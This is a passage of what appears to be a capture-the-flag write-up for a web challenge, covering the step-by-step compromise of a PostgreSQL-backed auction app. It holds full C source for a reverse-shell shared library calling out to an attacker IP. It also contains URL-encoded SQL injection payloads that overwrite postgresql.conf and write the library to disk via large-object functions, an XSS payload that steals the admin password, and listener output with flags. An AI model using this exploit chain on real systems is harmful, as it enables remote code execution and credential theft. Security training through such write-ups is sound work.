Our docker container doesn't have bash so we need to change it up a bit to use `/bin/sh` and change the port and IP to our ones:

```c
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include "postgres.h"
#include "fmgr.h"
  
#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif
  
void _init() {
    /*
        code taken from https://www.revshells.com/
    */
  
    int port = 4444;
    struct sockaddr_in revsockaddr;
  
    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("ATTACKERIP");
  
    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);
  
    char * const argv[] = {"/bin/sh", NULL};
    execve("/bin/sh", argv, NULL);
}
```

I modify the Dockerfile we are given to include the `postgresql-dev` package:
```dockerfile
RUN apk add --no-cache \
    chromium \
    chromium-chromedriver \
    postgresql \
    postgresql-contrib \
    postgresql-dev \
    supervisor \
    nginx \
    openssl \
    build-base
```

I also update the arch (for Mac):
```dockerfile
FROM --platform=linux/amd64 node:alpine
```

After building, I put the file into `/tmp/payload.c` and compile with the provided command (again from the blog):
```
gcc -I$(pg_config --includedir-server) -shared -fPIC -nostartfiles -o payload.so payload.c
```

I then use `xxd -p payload.so` and copy the hex content.

### Updating the config

I then manually update the config file with the 2 extra lines:
```
max_connections = 100			# (change requires restart)

shared_buffers = 128MB			# min 128kB
dynamic_shared_memory_type = posix	# the default is usually the first option
max_wal_size = 1GB
min_wal_size = 80MB
log_timezone = UTC

datestyle = 'iso, mdy'
timezone = UTC
lc_messages = C				# locale for system error message
lc_monetary = C				# locale for monetary formatting
lc_numeric = C				# locale for number formatting
lc_time = C				# locale for time formatting
default_text_search_config = 'pg_catalog.english'
listen_addresses = '*'

dynamic_library_path = '/tmp:$libdir'
session_preload_libraries = 'payload.so'
```


(For now in local, I update it with the shell):
```
# echo -e "\n\ndynamic_library_path = '/tmp:$libdir'\nsession_preload_libraries = 'payload.so'\n" >> /var/lib/postgresql/data/postgresql.conf
```

### Reload the config

And we reload! aaaaaand... Nothing!

(For some reason I had a real issue with getting this working, in the end a teammate made a `Dockerfile` that consistently worked):
```dockerfile
# Use a multi-stage build approach
FROM --platform=linux/amd64 node:alpine AS builder

# Install necessary packages
RUN apk add --no-cache gcc musl-dev
RUN apk add postgresql17-client postgresql17-dev

WORKDIR /
COPY payload.c .

# Compile specifically for x86_64
RUN gcc -I$(pg_config --includedir-server) -shared -fPIC -nostartfiles -o payload.so payload.c
RUN xxd -p payload.so > payload.so.hex
CMD ["cat", "payload.so.hex"]
```

### Do it all again

I use that `payload.c` from earlier and this time with that Dockerfile:

I assign the config to 133339, I found that `base64` was not working in `decode()` so I used `hex`:
```
users"%20UNION%20SELECT%20null,null,CAST((SELECT%20lo_from_bytea(133339,decode('2320...0a','hex')))%20AS%20text)--
```

Then write it to `/var/lib/postgresql/data/postgresql.conf` to override the config to add the preload library lines:
```
users"%20UNION%20SELECT%20null,null,CAST((SELECT%20lo_export(133339,'/var/lib/postgresql/data/postgresql.conf'))%20AS%20text)--
```

I then assign the letter 'a' to 133343:
```
users"%20UNION%20SELECT%20null,null,CAST((SELECT%20lo_from_bytea(133343,'a'))%20AS%20text)--
```

I then use `lo_put` to overwrite the data (again using `hex` and `decode()`) as the data was too big:
```
users"%20UNION%20SELECT%20null,null,CAST((SELECT%20lo_put(133343,0,decode('7f45...00','hex')))%20AS%20text)--
```

I then write the data to `/tmp/payload.so`:
```
users"%20UNION%20SELECT%20null,null,CAST((SELECT%20lo_export(133343,'/tmp/payload.so'))%20AS%20text)--
```


I then reload the config:
```
users"%20UNION%20SELECT%20null,null,CAST((SELECT%20pg_reload_conf())%20AS%20text)--
```

and finally... (after waiting):
```
root@server:~# nc -lvnp 4444
listening on [any] 4444 ...
connect to [43.229.61.175] from (UNKNOWN) [159.196.175.147] 37400
/readflag
HTB{F4K3_FL4G_F0R_T3St1NG!}
```

Woot!

## Do it on remote

### Get the password
Make our user, get to the panel and then make the bid request with our cookies:

```
POST /api/auctions/3/bids HTTP/1.1
...

bid[]=test'%3C/div%3E%3Cimg%20src=x%20onerror=eval(atob(%60ZmV0...KSk7%60));%3E%3Cdiv%20x='
```

```
POST /api/submissions HTTP/1.1
...

{"name":"test","description":"test","url":"http://127.0.0.1:1337/auction/3","category":"lore"}
```

Then waiting on the webhook, we get our password from our XSS:
```json
{
  "success": true,
  "results": [
    {
      "id": 1,
      "username": "admin",
      "password": "xtamcI+PAux6mqYuXTXge4bDxY0Tmtv6S0Pt4ZMn9Vo="
    },
    {
      "id": 2,
      "username": "sealldev",
      "password": "oauth_default_password"
    }
  ]
}
```

### Overriding the config
We send our request to assign our data to 133339:
```
POST /table HTTP/1.1
...

tableName=users"%20UNION%20SELECT%20null,null,CAST((SELECT%20lo_from_bytea(133339,decode('2320...0a','hex')))%20AS%20text)--
```

We can then override the config:
```
POST /table HTTP/1.1
...

tableName=users"%20UNION%20SELECT%20null,null,CAST((SELECT%20lo_export(133339,'/var/lib/postgresql/data/postgresql.conf'))%20AS%20text)--
```

### Dropping the `.so`

We make our fake data on 133343:
```
POST /table HTTP/1.1
...

tableName=users"%20UNION%20SELECT%20null,null,CAST((SELECT%20lo_from_bytea(133343,'a'))%20AS%20text)--
```

We then use `lo_put` to put the real data:
```
POST /table HTTP/1.1
...

tableName=users"%20UNION%20SELECT%20null,null,CAST((SELECT%20lo_put(133343,0,decode('7f45...00','hex')))%20AS%20text)--
```

We then drop it to `/tmp/payload.so`:
```
POST /table HTTP/1.1
...

tableName=users"%20UNION%20SELECT%20null,null,CAST((SELECT%20lo_export(133343,'/tmp/payload.so'))%20AS%20text)--
```

### Get the RCE
I reload the config:
```
POST /table HTTP/1.1
...

tableName=users"%20UNION%20SELECT%20null,null,CAST((SELECT%20pg_reload_conf())%20AS%20text)--
```

Nothing...

I send it 5 more times...

Waiting...

After... MUCH ANTICIPATION
```
root@server:~# nc -lvnp 4444
listening on [any] 4444 ...
connect to [43.229.61.175] from (UNKNOWN) [83.136.252.133] 47678
/readflag
HTB{l00k_0ut_f0r_0auth_155u35}
```


Flag: `HTB{l00k_0ut_f0r_0auth_155u35}`